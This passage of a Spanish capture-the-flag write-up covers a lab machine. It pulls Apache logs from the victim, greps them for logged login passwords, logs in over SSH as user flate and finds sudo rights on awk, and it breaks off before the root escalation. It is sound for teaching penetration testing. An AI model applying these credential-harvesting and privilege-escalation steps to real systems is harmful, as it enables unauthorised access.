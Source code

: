 Pero, en los archivos `apache2/access.log` y `apache2/access.log.1` no encontraremos algo, por lo que falta verificar los comprimidos.

Levanta un servidor con **Python3** en la máquina víctima:
```bash
pedro@TheHackersLabs-Base:~$ cd /var/log/apache2
pedro@TheHackersLabs-Base:/var/log/apache2$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Con **wget**, descarga ambos archivos en tu máquina:
```bash
wget http://192.168.100.70:8000/access.log.2.gz
wget http://192.168.100.70:8000/access.log.3.gz
```

Descomprime cada uno con la herramienta **gunzip**:
```bash
gunzip access.log.2.gz access.log.3.gz
❯ ls
access.log.2  access.log.3  hash  webshell.php
```

Bien, podemos leer esos archivos y usar **grep** para buscar **username**:
```bash
❯ cat access.log.2 | grep 'username'
203.0.113.56 - flate [12/Sep/2024:12:03:55 +0000] "POST /login HTTP/1.1" 401 4812 "http://example.com/login" "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" "username=flate&password=******"
                                                                                                                                                                                              
❯ cat access.log.3 | grep 'username'
172.16.241.171 -   [10/Sep/2024:11:47:00 -0600] "GET /login.php?username=flate&password=******** HTTP/1.1" 404 1234 "http://172.16.241.180/somepage.php" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
```

En ambos encontramos la contraseña del **usuario flate** y con esto podemos entrar vía **SSH**:
```bash
ssh flate@192.168.100.70
flate@192.168.100.70's password: 
Linux TheHackersLabs-Base 6.1.0-25-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.106-3 (2024-08-26) x86_64
...
flate@TheHackersLabs-Base:~$ whoami
flate
```

<br>

<h2 id="awk">Escalando Privilegios Abusando de Permisos Sudoers Sobre Binario AWK</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
flate@TheHackersLabs-Base:~$ sudo -l
Matching Defaults entries for flate on TheHackersLabs-Base:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User flate may run the following commands on TheHackersLabs-Base:
    (root) NOPASSWD: /usr/bin/awk
```
Podemos usar el **binario awk** como **Root**.
